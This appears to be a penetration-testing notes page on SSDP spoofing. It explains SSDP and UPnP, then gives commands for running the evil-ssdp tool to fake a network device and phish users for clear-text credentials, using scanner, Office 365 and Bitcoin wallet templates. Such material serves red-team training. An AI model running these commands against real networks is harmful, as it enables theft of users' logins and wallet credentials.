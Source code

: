 # ⭕ SSDP Spoofing

## <mark style="color:red;">SSDP</mark>

SSDP or Simple Service Discovery Protocol is a network protocol designed for advertisement and discovery of network services. It can work without any DHCP or DNS Configuration. It was designed to be used in residential or small office environments. It uses UDP as the underlying transport protocol on port 1900. It uses the HTTP method NOTIFY to announce the establishment or withdrawal of services to a multicast group. It is the basis of the discovery protocol UPnP.

## <mark style="color:red;">UPnP</mark>

UPnP or Universal Plug and Play is a set of networking protocols that allows networked devices, such as personal computers, printers, Internet gateways, Wi-Fi access points, and mobile devices to discover each other’s availability on the network and establish network services for communications, data sharing, and entertainment. The UPnP architecture supports zero-configuration networking. A UPnP compatible device from any vendor can dynamically join a network, obtain an IP address, announce its name, advertise or convey its capabilities upon request, and learn about the presence and capabilities of other devices.

## <mark style="color:red;">Evil SSDP</mark>

{% embed url="https://github.com/initstring/evil-ssdp" %}

A tool for setting up a fake SSDP device and phishing the user for clear text credentials:

{% hint style="warning" %}
The attacker has to be in the same network as the target systems.
{% endhint %}

```
git clone https://github.com/initstring/evil-ssdp.git
cd evil-ssdp/ls
python3 evil-ssdp.py --help
```

to run the attack :&#x20;

```
python3 evil-ssdp.py -i eth0
```

{% hint style="info" %}
#### The default template is office 365 login console, you can change the template with -t \[template name]
{% endhint %}

&#x20;to setup a fake scanner for phishing, use the scanner template:

```
python3 evil-ssdp.py eth0 --template scanner
```

if the user clicks on the scanner icon in windows explorer > networks, the default browser will open up a web page and ask for credentials in order to connect to the device:

![](<../../.gitbook/assets/image (205).png>)

if the user enters the credentials, EvilSSDP will grab and show them

![](<../../.gitbook/assets/image (118).png>)

## <mark style="color:red;">Other templates</mark>

### <mark style="color:orange;">Office 365</mark>

```
python3 evil_ssdp.py eth0 -t office365
```

![](<../../.gitbook/assets/image (2).png>)

### <mark style="color:orange;">Bitcoin Wallet</mark>

```
python3 evil_ssdp.py eth0 -t bitcoin -b
```

![](<../../.gitbook/assets/image (2) (1) (1) (1).png>)

check the repository for other available templates or use your own template and xml description file.
